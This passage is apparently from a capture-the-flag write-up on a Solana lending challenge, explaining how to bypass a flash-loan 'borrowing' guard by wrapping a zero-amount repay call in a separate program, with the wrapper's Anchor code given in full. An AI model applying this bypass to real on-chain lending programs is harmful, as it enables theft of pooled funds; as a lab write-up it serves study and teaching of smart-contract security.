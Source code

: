 ```
pub fn borrow(ctx: Context<Borrow>, amount: u64) -> ProgramResult {
    if ctx.accounts.pool.borrowing {
        return Err(ProgramError::InvalidAccountData);
    }
...
}

pub fn repay(ctx: Context<Repay>, amount: u64) -> ProgramResult {
...
    ctx.accounts.pool.borrowing = false;
    Ok(())
}
```

To reset the `borrowing` flag between two calls to borrow, we could call
repay with an amount of zero, but the first borrow instruction would
throw an error when it sees the repay instruction in the list of
instructions. We must hide the repay zero instruction from the borrow
instruction by using our program that will invoke the repay instruction
internally.

### [](https://hackmd.io/@theori/r1gnaGNks#Exploit2 "Exploit2")Exploit

The first step is to write our program that will invoke the repay
instruction with an amount of zero. The code is very simple and we use
essentially the same accounts structure as the challenge program:

```
#[program]
pub mod wrapper {
    use super::*;

    pub fn repay(ctx: Context<RepayWrapper>) -> ProgramResult {
        let cpi_program = ctx.accounts.challenge3_program.to_account_info();
        let cpi_accounts = Repay {
            player: ctx.accounts.player.to_account_info(),
            user: ctx.accounts.user.to_account_info(),
            state: ctx.accounts.state.to_account_info(),
            pool: ctx.accounts.pool.to_account_info(),
            pool_account: ctx.accounts.pool_account.to_account_info(),
            depositor_account: ctx.accounts.depositor_account.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info(),
        };
        let cpi_ctx = CpiContext::new(cpi_program, cpi_accounts);
        challenge3::cpi::repay(cpi_ctx, 0);
        Ok(())
    }
}

#[derive(Accounts)]
pub struct RepayWrapper<'info> {
    /// CHECK: shut up
    pub player: AccountInfo<'info>,
    pub user: Signer<'info>,
    pub state: Account<'info, State>,
    pub pool: Account<'info, Pool>,
    pub pool_account: Account<'info, TokenAccount>,
    pub depositor_account: Account<'info, TokenAccount>,
    pub token_program: Program<'info, Token>,
    pub challenge3_program: Program<'info, Challenge3>,
}
```

